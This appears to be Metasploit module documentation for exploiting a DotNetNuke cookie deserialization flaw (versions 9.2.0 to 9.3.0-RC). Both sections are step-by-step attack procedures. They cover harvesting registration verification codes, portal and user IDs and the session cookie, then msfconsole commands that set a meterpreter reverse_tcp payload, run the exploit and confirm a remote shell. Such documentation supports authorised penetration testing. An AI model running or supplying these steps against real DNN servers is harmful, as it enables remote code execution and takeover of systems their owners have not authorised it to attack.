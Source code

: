 ### v9.2.0 - v9.2.1
  1. Install the application
  2. Configure the application to use Verified Registration
  3. Configure the application's SMTP server settings so that it will send the registration email
  4. Register a new user account and copy the verification code in the link in the registration email
  5. Log in as the new user and navigate to the Edit Profile page. Note the `userId` url path parameter value
  6. Examine the Edit Profile page's source code and search for a `portalId` value that is a positive integer.
  7. While logged in, examine your cookies using the browser's developer tools or by other means. Copy the value of the `.DOTNETNUKE` cookie value.
  8. Start msfconsole
  9. Do: ```use exploit/windows/http/dnn_cookie_deserialization_rce```
  10. Do: ```set RHOST <RHOST>```
  11. Do: ```set RPORT <RPORT>```
  12. Do: ```set PAYLOAD windows/meterpreter/reverse_tcp```
  13. Do: ```set LHOST <LHOST>```
  14. Do: ```set LPORT <LPORT>```
  15. Do: ```set VERIFICATION_CODE <Verification Code>```
  16. Do: ```set VERIFICATION_PLAIN <{portalId}-{userId}>```
  17. Do: ```set ENCRYPTED true```
  18. Do: ```set SESSION_TOKEN <.DOTNETNUKE cookie value>```
  19. Do: ```check```
  20. **Verify** that you are seeing `The target appears to be vulnerable` in the console
  21. Do: ```exploit```
  22. **Verify** that you get a meterpeter shell
  
### v9.2.2 - 9.3.0-RC
  In these versions, the `userId` value was changed to be a randomly generated GUID. This means that only the first part of the verification plaintext is known. By providing a list of several verification codes, it is possible to reduce the nubmer of potential encryption key values to a feasible amount. Once the list of encryption keys has been reduced, the module will test each key until an HTTP callback is received on port `8080` that indicates which key worked. Then, the final exploit payload will be encrypted using the recovered key and sent to the server, resulting in a shell.
  
  1. Install the application
  2. Configure the application to use Verified Registration
  3. Configure the application's SMTP server settings so that it will send the registration email
  4. Register several new user accounts and note the verification codes in the link in the registration emails
  5. Log in as the new user and navigate to the Edit Profile page.
  6. Examine the Edit Profile page's source code and search for a `portalId` value that is a positive integer
  7. While logged in, examine your cookies using the browser's developer tools or by other means. Copy the value of the `.DOTNETNUKE` cookie value.
  8. Start msfconsole
  9. Do: ```use exploit/windows/http/dnn_cookie_deserialization_rce```
  10. Do: ```set RHOST <RHOST>```
  11. Do: ```set RPORT <RPORT>```
  12. Do: ```set PAYLOAD windows/meterpreter/reverse_tcp```
  13. Do: ```set LHOST <LHOST>```
  14. Do: ```set LPORT <LPORT>```
  15. Do: ```set VERIFICATION_CODE <full path to file containing verification codes>```
  16. Do: ```set VERIFICATION_PLAIN <{portalId}->```
  17. Do: ```set ENCRYPTED true```
  18. Do: ```set SESSION_TOKEN <.DOTNETNUKE cookie value>```
  19. Do: ```set TARGET 4```
  20. Do: ```check```
  21. **Verify** that you are seeing `The target appears to be vulnerable` in the console.
  22. Do: ```exploit```
  23. **Verify** that you get a meterpeter shell 
